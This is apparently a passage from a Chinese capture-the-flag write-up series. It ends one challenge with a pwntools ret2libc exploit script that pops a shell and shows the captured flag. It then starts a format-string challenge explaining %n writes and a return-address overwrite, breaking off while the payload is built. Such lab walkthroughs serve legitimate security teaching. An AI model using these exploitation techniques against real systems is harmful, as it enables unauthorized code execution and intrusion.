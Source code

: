 ```python
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

ret = 0x4011CC
payload = cyclic(72)
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(system_addr)
p.sendline(payload)
p.interactive()

# flag是动态生成的，每个人flag都不一样
# 我的flag：vmc{LerSVUDPTkkyrYwwFiQkWtfuZlk5fPfj}
```

# 第38题、`格式化字符串`分析及解决方案
## **背景知识**
### 1. **格式化字符串漏洞：**
格式化字符串漏洞是由于 `printf` 等格式化输出函数未正确处理用户输入引起的安全问题。  
在 `printf(user_input)` 中，用户可以利用格式化占位符（如 `%p`, `%x`, `%n`）直接读取或写入内存。

### 2. **利用格式化字符串漏洞：**
- **读数据：** 使用 `%p` 或 `%s` 占位符可以泄露内存地址中的数据。
- **写数据：** 使用 `%n` 占位符可以将已输出字符的数量写入内存地址。例如：
  - `%10$n` 将输出的字符数写入指定栈上的地址（偏移 10）。
  - `%hhn` 写入 1 字节，`%hn` 写入 2 字节。

## **解题思路**
### 1. 用 IDA 静态分析
- **目标：** 找到程序逻辑，定位可利用的漏洞和目标函数。
- **分析结果：**
  1. 程序中有一个 `success` 函数（地址：`0x08049317`），调用该函数可以输出 flag。
  2. `success` 函数没有被直接调用，需修改返回地址使其指向 `success`。
  3. `game` 函数中存在格式化字符串漏洞，可以利用该漏洞泄露内存数据并修改返回地址。

---

### 2. 泄露内存信息
- **方法：** 利用 `printf` 的格式化字符串漏洞泄露栈上数据。
- **调试：** 使用 `pwndbg` 调试：
  1. 使用 `stack` 命令查看栈布局。
  2. 根据栈布局搜索 `game` 函数的返回地址在栈上的位置。
- **计算偏移：** 根据泄露的信息计算返回地址在栈上的偏移，这样可以在脚本中通过字符串地址动态计算返回地址的位置。

---

### 3. 修改返回地址
#### **目标：** 将 `game` 函数的返回地址 `0x08049797` 修改为 `success` 函数地址 `0x08049317`。
#### **方法：**
- **分块写入：** 因为 `0x08049317` 是一个较大的数，可以分字节逐个修改（小端存储）。
- **分析：**
  1. `game` 函数返回地址的高 2 字节和 `success` 函数地址相同，只需修改低 2 字节。
  2. 修改 `game` 返回地址的低 1 字节和次低 1 字节：
     - 修改低字节：`game_ret + 0`  
     - 修改次低字节：`game_ret + 1`
- **构造 Payload：**
  1. 使用 `%c` 填充所需字符数。